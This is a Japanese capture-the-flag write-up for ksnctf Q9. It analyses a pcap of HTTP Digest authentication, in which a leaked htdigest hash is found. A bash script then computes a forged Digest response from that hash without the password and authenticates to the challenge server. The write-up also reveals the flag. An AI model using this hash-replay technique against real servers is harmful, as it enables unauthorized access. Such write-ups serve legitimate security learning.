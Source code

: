 Q9.Digest is secure! 150pt
--------------------------

問題
----
> http://ksnctf.sweetduet.info/q/9/q9.pcap

解き方
-----

pcap問題ですね。

wiresharkしても良いですが、この程度の量ならstringsして様子を見るのもありです。

```pcap
$ strings q9.pcap (主要部分のみ抜粋)
GET /~q9/ HTTP/1.1
Host: ctfq.sweetduet.info:10080
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/535.19 (KHTML, like Gecko) Chrome/18.0.1025.162 Safari/535.19
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,sdch
Accept-Language: ja,en-US;q=0.8,en;q=0.6
Accept-Charset: Shift_JIS,utf-8;q=0.7,*;q=0.3

HTTP/1.1 401 Authorization Required
Date: Sat, 26 May 2012 20:54:42 GMT
Server: Apache/2.2.15 (CentOS)
WWW-Authenticate: Digest realm="secret", nonce="bbKtsfbABAA=5dad3cce7a7dd2c3335c9b400a19d6ad02df299b", algorithm=MD5, qop="auth"
Content-Length: 489
Connection: close
Content-Type: text/html; charset=iso-8859-1
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Authorization Required</title>
</head><body>
<h1>Authorization Required</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
<hr>
<address>Apache/2.2.15 (CentOS) Server at ctfq.sweetduet.info Port 10080</address>
</body></html>

GET /~q9/ HTTP/1.1
Host: ctfq.sweetduet.info:10080
Connection: keep-alive
Authorization: Digest username="q9", realm="secret", nonce="bbKtsfbABAA=5dad3cce7a7dd2c3335c9b400a19d6ad02df299b", uri="/~q9/", algorithm=MD5, response="c3077454ecf09ecef1d6c1201038cfaf", qop=auth, nc=00000001, cnonce="9691c249745d94fc"
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/535.19 (KHTML, like Gecko) Chrome/18.0.1025.162 Safari/535.19
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,sdch
Accept-Language: ja,en-US;q=0.8,en;q=0.6
Accept-Charset: Shift_JIS,utf-8;q=0.7,*;q=0.3

HTTP/1.1 200 OK
Date: Sat, 26 May 2012 20:54:45 GMT
Server: Apache/2.2.15 (CentOS)
Authentication-Info: rspauth="42b425bdd3ad27086858915611646f7c", cnonce="9691c249745d94fc", nc=00000001, qop=auth
Last-Modified: Sat, 26 May 2012 12:28:32 GMT
ETag: "422e2-c0-4c0ef9f82a6c7"
Accept-Ranges: bytes
Content-Length: 192
Connection: close
Content-Type: text/html; charset=UTF-8
<!DOCTYPE html>
  <head>
    <meta charset="utf-8">
    <title>Q9</title>
  </head>
  <body>
    <p>Congratulations!</p>
    <p>The flag is <a href="flag.html">here</a>.</p>
  </body>
</html>

GET /~q9/htdigest HTTP/1.1
Host: ctfq.sweetduet.info:10080
Connection: keep-alive
Authorization: Digest username="q9", realm="secret", nonce="bbKtsfbABAA=5dad3cce7a7dd2c3335c9b400a19d6ad02df299b", uri="/~q9/htdigest", algorithm=MD5, response="d9f18946e5587401c303b34e00a059eb", qop=auth, nc=00000002, cnonce="6945eb2a7ba8cf7f"
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/535.19 (KHTML, like Gecko) Chrome/18.0.1025.162 Safari/535.19
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,sdch
Accept-Language: ja,en-US;q=0.8,en;q=0.6
Accept-Charset: Shift_JIS,utf-8;q=0.7,*;q=0.3

HTTP/1.1 200 OK
Date: Sat, 26 May 2012 20:54:53 GMT
Server: Apache/2.2.15 (CentOS)
Authentication-Info: rspauth="022023eac9b9e023d50cca5eef69c287", cnonce="6945eb2a7ba8cf7f", nc=00000002, qop=auth
Last-Modified: Sat, 26 May 2012 12:30:54 GMT
ETag: "422e4-2b-4c0efa7f441cf"
Accept-Ranges: bytes
Content-Length: 43
Connection: close
Content-Type: text/plain; charset=UTF-8
q9:secret:c627e19450db746b739f41b64097d449

```

次の順番で通信していることが分かります。
 1. 普通のリクエスト
 2. 401レスポンス
     - `WWW-Authenticate: Digest realm="secret", nonce="bbKtsfbABAA=5dad3cce7a7dd2c3335c9b400a19d6ad02df299b", algorithm=MD5, qop="auth"`
 3. ID/PASSを入力
     - `Authorization: Digest username="q9", realm="secret", nonce="bbKtsfbABAA=5dad3cce7a7dd2c3335c9b400a19d6ad02df299b", uri="/~q9/", algorithm=MD5, response="c3077454ecf09ecef1d6c1201038cfaf", qop=auth, nc=00000001, cnonce="9691c249745d94fc"`
 4. 200レスポンス

digest認証はresponseの値が計算しにくい(MD5)ことでメッセージの傍受に対して耐性があります。

responseの計算式は次の通りです。
```bash
response="$(MD5 $(MD5 "$username:$realm:$password"):$nonce:$nc:$cnonce:$qop:$(MD5 "$method:$URI"))"
```

ID/PASSの入力から最終的なresponse`c3077454ecf09ecef1d6c1201038cfaf`が分かっています。

上記の式の値をMD5したものが`c3077454ecf09ecef1d6c1201038cfaf`ですが、これはレインボーテーブルに存在します。

レインボーテーブルによるとこれをMD5逆変換したものは`c627e19450db746b739f41b64097d449:bbKtsfbABAA=5dad3cce7a7dd2c3335c9b400a19d6ad02df299b:00000001:9691c249745d94fc:auth:31e101310bcd7fae974b921eb148099c`のようです。単語の並びを見ても合っていそうです。

Digest認証では`$username`は必要ですが、`$(MD5 "$username:$realm:$password")`が既知の場合、`$password`は必要ないんですね。

pcapの内容に従って1, 2の流れを再現して、3のリクエストを構成すればよいです。

つまり、レスポンスから`$nonce`, `$qop`, `$algorithm`, `$realm`を取得して`$resnponce`を計算してもう一度リクエストを送信すればよいです。

```bash
#!/usr/bin/env bash
MD5_username_realm_password='c627e19450db746b739f41b64097d449'
MD5_method_uri="$(echo -n 'GET:/~q9/flag.html'|md5sum|sed -e's/ *-//')"

raw_nc='00000001'
raw_cnonce='9691c249745d94fc'
raw_qop='auth'

# get nonce
url='http://ksnctf.sweetduet.info:10080/~q9/flag.html'
res="$(curl -sS -v "$url" &>/dev/stdout)"
res="$(echo "$res"|sed -e's/\r/\n/g')"
digest=$(echo "$res"|grep 'WWW-Authenticate'|head -n 1)
raw_nonce="$(echo $digest|sed -e 's/.*nonce="\([0-9a-zA-Z=]*\)", .*/\1/')"

# create 'response'
response="$(echo -n "$MD5_username_realm_password:$raw_nonce:$raw_nc:$raw_cnonce:$raw_qop:$MD5_method_uri"|md5sum|sed -e's/ *-//')"
# create request header
qop='qop="auth"'
realm='realm="secret"'
username='username="q9"'
nonce='nonce="'"$raw_nonce"'"'
uri='uri="/~q9/flag.html"'
response='response="'"$response"'"'
nc='nc="'"$raw_nc"'"'
cnonce='cnonce="'"$raw_cnonce"'"'
realm='realm="secret"'

auth_header="Authorization: Digest $username, $realm, $nonce, $uri, algorithm=MD5, $response, $qop, $nc, $cnonce"

curl -sS "$url" -H "$auth_header"

```

```html
<!DOCTYPE html>
  <head>
    <meta charset="utf-8">
    <title>Q9</title>
  </head>
  <body>
    <p>FLAG_YBLyivV4WEvC4pp3</p>
  </body>
</html>
```

FLAG
-----
`FLAG_YBLyivV4WEvC4pp3`


